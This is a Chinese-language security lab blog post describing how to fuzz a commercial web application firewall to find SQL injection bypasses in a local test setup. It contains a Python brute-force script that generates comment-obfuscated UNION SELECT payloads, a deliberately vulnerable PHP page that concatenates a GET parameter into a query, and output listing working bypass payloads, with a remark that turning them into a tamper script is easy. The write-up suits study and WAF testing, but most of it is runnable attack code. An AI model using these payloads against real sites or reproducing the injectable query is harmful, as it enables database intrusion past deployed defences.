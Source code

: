 ```yaml
---
layout: post
title:  "Fuzz 测试 WAF"
date:   2017-06-02
categories: fuzz
permalink: /archivers/2017-06-02/1
description: "本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。"
---
```

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。
<!--more-->
## 0x00 前言
科拉实验室 是一个无名无实的信息安全实验室，此Git用于发布成员研究成果，技术交流而创。

本篇文章是总结 科拉实验室V1n3r的Fuzz bypass WAF的过程，由科拉实验室 倾旋 做内容补充。

参考文献：http://www.cnblogs.com/perl6/p/7076524.html

环境如下：
* Windows 2008
* Apache
* PHP
* MySQL
* 某WAF 4.0


## 0x01 原理


每当WAF拦截一个请求，都会返回一个相同的提示页面，这个页面可以给予我们与正常请求页面不同的响应。

如：网页标题、网页内容、HTTP响应头、等等……

那么在WAF匹配攻击敏感点的时候它会查询一下自己的规则库（正则表达式），如果遇到匹配不到的请求（正常请求 or 攻击请求），都会自动放行。

首先要确立一个看似一定会被拦截的规则，然后在此规则上做FUZZ测试。

例如：`UNION SELECT XXX`

但是我们在UNION与SELECT之间可以做许多注释来进行测试，假设规则库（正则）中只能匹配到数字、大小写字母，那么就可以填充它预知不到的字符，该请求被发送出去，都将会被视为正常请求放行。

例如：`UNION/*%(-_/}%*/ SELECT`

当前状况下，`/**/`中的字符都不会被SQL解析。

## 0x02 机器实现对抗规则库

```python
# -*- coding: utf-8 -*-
import requests
fuzz_zs = ['/*','*/','/*!','*','=','`','!','@','%','.','-','+','|','%00']
fuzz_sz = ['',' ']
fuzz_ch = ["%0a","%0b","%0c","%0d","%0e","%0f","%0g","%0h","%0i","%0j"]
 # 这里还可以填充更多的冷门字符
fuzz = fuzz_zs+fuzz_sz+fuzz_ch
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2623.221 Safari/537.36 SE 2.X MetaSr 1.0"}
url_start = "http://192.168.1.104/index.php?id=1"
for a in fuzz:
    for b in fuzz:
        for c in fuzz:
            for d in fuzz:
                    exp = "/*!union/*"+a+b+c+d+"*/select*/ 1,2"
                    url = url_start + exp
                    res = requests.get(url = url , headers = headers)
                    #print(res.text.find("true"))
                    if res.text.find("true")==-1:
                        print("Find Fuzz bypass:"+url)
                        pass

```

服务器端代码：
```php
<?php
mysql_connect("127.0.0.1","root","root","test");
$id=!empty($_GET['id'])?$_GET['id']:1;
$SQL="SELECT * FROM test.test WHERE id = " . $id;
$result = mysql_fetch_assoc(mysql_query($SQL));
print_r($result);
```
数据库结构：

![数据库结构][1]


注意要将CC防护关闭，因为它会将短时间内请求数量过高的主机加入黑名单

## 0x03 Just Do it

![fuzz][2]

[1]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/00.png "数据库结构"
[2]: http://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2017-11-22/11.png "FUZZ结果"

```
 Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0c*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0d*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0e*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0f*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0g*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0h*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0i*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0h%0j*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/**/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i*/*/select*
/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i/*!*/select
*/ 1,2
Find Fuzz bypass:http://192.168.1.104/index.php?id=1/*!union/*/*/*%0i**/select*/
 1,2
 ..................
 ```

 对抗结果如上
 
 
 利用如上Payloads写出响应的Tamper已经不是什么难事了。
 
 
## 0x04 未来

目前是机器PK死的规则库，当然是机器会胜利，那么未来是否会是机器对抗机器？
 
还会远吗？

----------

科拉实验室  service@cora-lab.org

